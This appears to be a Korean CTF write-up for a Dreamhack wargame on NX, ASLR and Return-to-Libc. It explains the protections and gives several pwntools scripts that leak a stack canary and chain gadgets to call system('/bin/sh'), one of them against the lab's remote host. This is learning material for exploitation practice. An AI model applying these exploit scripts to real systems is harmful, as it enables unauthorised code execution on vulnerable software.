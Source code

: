 **No-eXecute(NX)**

****Checksec을 이용한 NX 확인****

```
$ checksec ./nx
[*] '/home/dreamhack/nx'
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

NX를 인텔은 **XD(eXecute Disable)** , 

AMD는 NX, 

윈도우는 **DEP(Data Execution Prevention)** , 

ARM에서는 **XN(eXecute Never)**

//

**Address Space Layout Randomization(ASLR)**은 바이너리가 실행될 때마다 스택, 힙, 공유 라이브러리 등을 임의의 주소에 할당하는 보호 기법

|  | $ cat /proc/sys/kernel/randomize_va_space |
| --- | --- |
|  | 2 |

리눅스에서 이 값은 0, 1, 또는 2의 값을 가질 수 있습니다. 각 ASLR이 적용되는 메모리 영역은 다음과 같습니다.

- No ASLR(0): ASLR을 적용하지 않음
- Conservative Randomization(1): 스택, 힙, 라이브러리, vdso 등
- Conservative Randomization + brk(2): (1)의 영역과 `brk`로 할당한 영역

//

코드 영역에는 유용한 코드 가젯들과 함수가 포함되어 있습니다. 반환 주소를 셸 코드로 직접 덮는 대신, 이들을 활용하면 NX와 ASLR을 우회하여 공격할 수 있습니다. 관련된 대표적인 공격 방법으로는 **Return-to-Libc (RTL)**과 **Return Oriented Programming (ROP)**가 있습니다

- **Address Space Layout Randomization(ASLR):** 메모리를 무작위 주소에 할당하는 보호 기법. 최신 커널들은 대부분 적용되어 있음. 리눅스에서는 페이지 단위로 할당이 이루어지므로 하위 12비트는 변하지 않는다는 특징이 있음.
- **NX(No-eXecute bit)**: 프로세스의 각 세그먼트에 필요한 권한만 부여하는 보호 기법. 일반적으로 코드 영역에는 읽기와 실행을, 나머지 영역에는 읽기와 쓰기 권한이 부여됨.

//

# **Return To Library**

NX로 인해 공격자가 버퍼에 주입한 셸 코드를 실행하기는 어려워졌지만, 스택 버퍼 오버플로우 취약점으로 반환 주소를 덮는 것은 여전히 가능했습니다. 그래서 공격자들은 실행 권한이 남아있는 코드 영역으로 반환 주소를 덮는 공격 기법을 고안했습니다.

프로세스에 실행 권한이 있는 메모리 영역은 일반적으로 바이너리의 코드 영역과 바이너리가 참조하는 라이브러리의 코드 영역입니다.

이 중, 공격자들이 주목한 것은 다양한 함수가 구현된 라이브러리였습니다. 몇몇 라이브러리에는 공격에 유용한 함수들이 구현되어있습니다. 예를 들어, 리눅스에서 C언어로 작성된 프로그램이 참조하는 libc에는 `system`, `execve`등 프로세스의 실행과 관련된 함수들이 구현되어 있습니다.

공격자들은 libc의 함수들로 NX를 우회하고 셸을 획득하는 공격 기법을 개발하였고, 이를 **Return To Libc**라고 이름 지었습니다. 다른 라이브러리도 공격에 활용될 수 있으므로 이 공격 기법은 **Return To Library**라고도 불립니다. 유사한 공격 기법으로 **Return To PLT**

//

카나리 우회

```python
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)
```

exploit

```python
#!/usr/bin/env python3
# Name: rtl.py
from pwn import *

p = process('./rtl')
e = ELF('./rtl')

def slog(name, addr): return success(': '.join([name, hex(addr)]))

# [1] Leak canary
buf = b'A' * 0x39
p.sendafter(b'Buf: ', buf)
p.recvuntil(buf)
cnry = u64(b'\x00' + p.recvn(7))
slog('canary', cnry)

# [2] Exploit
system_plt = e.plt['system']
binsh = 0x400874
pop_rdi = 0x0000000000400853
ret = 0x0000000000400285

payload = b'A'*0x38 + p64(cnry) + b'B'*0x8
payload += p64(ret)  # align stack to prevent errors caused by movaps
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(system_plt)

pause()
p.sendafter(b'Buf: ', payload)

p.interactive()
```

//

return to library

```python
from pwn import *
from pwn import p64

p=remote("host3.dreamhack.games",8797)
buf=b'A'*0x39 
p.sendafter("Buf: ",buf)
p.recvuntil(buf)
canary=b'\x00'+p.recvn(7)

ret_gadget=p64(0x400285)
rbp_dummy=b'B'*0x8
poprdi_gadget=p64(0x400853)
binsh_addr=p64(0x400874)
sys_plt=p64(0x4005d0)

payload=b'A'*0x38+canary+rbp_dummy+ret_gadget+poprdi_gadget+binsh_addr+sys_plt
p.sendlineafter("Buf: ",payload)
p.interactive()
```

1.checksec 명령어로 보호기법 확인

canary와 nx

2.코드분석으로 버퍼오버플로우 가능성 확인

buf ~ RBP 까지의 거리는 56 이기 때문에, 'A'를 57개 입력하면 카나리 앞의 '\x00'가 제거되어서 canary leak

3.exploit

```python
from pwn import *
from pwn import p64

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))

#context.log_level = 'debug'

p = remote("host3.dreamhack.games", 8797)
e = ELF("./rtl")
libc = e.libc
r = ROP(e)

# [0] Gathering Information
system_plt = e.symbols['system']
sh = next(e.search(b'/bin/sh'))
pop_rdi = r.find_gadget(['pop rdi'])[0]
ret = r.find_gadget(['ret'])[0]
slog("system@plt", system_plt)
slog("/bin/sh", sh)
slog("pop rdi", pop_rdi)
slog("ret", ret)

# [1] Leak Canary
buf2sfp = 0x40
buf2cnry = 0x40 - 0x8
payload = b'A'*(buf2cnry + 1)
p.sendafter("Buf: ", payload)
p.recvuntil(payload)
canary = u64(b'\x00'+p.recvn(7))
slog("Canary", canary)

# [2] Exploit
payload = b'A' * buf2cnry
payload += p64(canary)
payload += b'B' * 8
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(sh)
payload += p64(system_plt)

pause()
p.sendafter("Buf: ", payload)

p.interactive()
```

![ReturnToLibrary.jpg](https://github.com/JoWoonJi/Dreamhack_Wargame/blob/main/SystemHacking/img/ReturnToLibrary.jpg)

플래그 획득!
